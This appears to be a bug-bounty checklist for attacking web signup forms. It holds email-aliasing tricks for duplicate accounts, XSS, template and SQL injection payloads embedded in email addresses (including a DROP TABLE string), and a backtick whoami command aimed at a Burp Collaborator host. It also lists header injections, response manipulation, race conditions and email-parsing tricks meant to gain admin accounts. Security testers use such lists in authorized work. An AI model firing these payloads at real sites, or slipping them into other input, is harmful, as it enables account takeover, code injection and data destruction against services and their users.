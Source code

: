# Signup Checks

## Signup bypasses & takeovers

### Same email id and multiple accounts

- bugtestavi1@gmail.com
- bugtestavi1+1@gmail.com
- bugtestavi+1@gmail.com
- bugtestavi1+2@gmail.com
- bugtestavi1+HELLO@gmail.com
- bugtestavi.1@gmail.com
- b.ugtestavi1@gmail.com
- bugtest.avi1@gmail.com

### Business email required

- user@wearehackerone.com
- user@bugcrowdninja.com
- temp mail
- edu mail
- burp collaborator

### Using burp collaborator as email id

- me@one.id.collaborator.net
- me@two.id.collaborator.net
- me@three.id.collaborator.net
- me@id.collaborator.net
- me@[id.collaborator.net]
- user(;me@id.collaborator.net)@gmail.com
- me@id.collaborator.net(@gmail.com)
- me+(@gmail.com)@id.collaborator.net
- <me@id.collaborator.net>user@gmail.com

## Injections

### email & usernames

- user${}<>'/"*-@gmail.com (wont work still try)
- user(${}<>'/"*-)@gmail.com
- user@(${}<>'/"*-)gmail.com
- user@gmail.com(${}<>'/"*-)
- me+(<script>alert(0)</script>)@gmail.com
- me(<script>alert(0)</script>)@gmail.com
- me@gmail(<script>alert(0)</script>).com
- "<script>alert(0)</script>"@gmail.com
- "<%= 7 * 7 %>"@gmail.com
- me+(${{7*7}})@gmail.com
- "' OR 1=1 -- '"@gmail.com
- "me); DROP TABLE users;--"@gmail.com 

	- Don't even think

- %@gmail.com
- user'or'1'='1@gmail.com
- me@`whoami`.id.collaborator.net
- {{7*7}}
- {7*7}
- ${7*7}

### passwords 

- {{7*7}}
- {7*7}
- ${7*7}
- BXSS
- BSQLI
- SQLI

### other fields

- all injection attacks

## Other

### Annoying Recaptcha

- add *.google.com.* to tls passthrough in burp

### Huge data 

- JSFUCK

### Header based attacks

- Host header injection
- BXSS, BSQLI on User-Agent
- BXSS, BSQLI on X-Forwarded-* headers
- BXSS, BSQLI on Referrer

### Response Manipulations

- Check successful responses upon signup
- perform unauthorized signup
- Change response with valid messages and status codes

### Null byte injection

- Append username, email params wth nullbyte ranges for bypassed & info leak

### using predifined keywords 

- null
- undefined
- true
- false
- etc

## Logical Bugs

### Invitation based signup

- Check invitaion code, link, token etc
- race condition
- same token different email ids

### signup with deleted email

- check of old residues

## Privilege Escalations

### admin@company.com

### admin@COMPANY.COM

### aDmin@company.com

### "me@gmail.com;"@company.com

### "me@gmail.com+"@company.com

### admin@googlemail.com@company.com

### me+(@googlemail.com)@company.com

### "me@googlemail.com"@company.com

### "<me@googlemail.com.com>"@company.com

### "me@googlemail.com;"@company.com

### "me@googlemail.com+"@company.com

### admin@gmail.com@company.com

### me+(@gmail.com)@company.com

### "me@gmail.com"@company.com

### "<me@gmail.com>"@company.com

### 'admin@company.com '

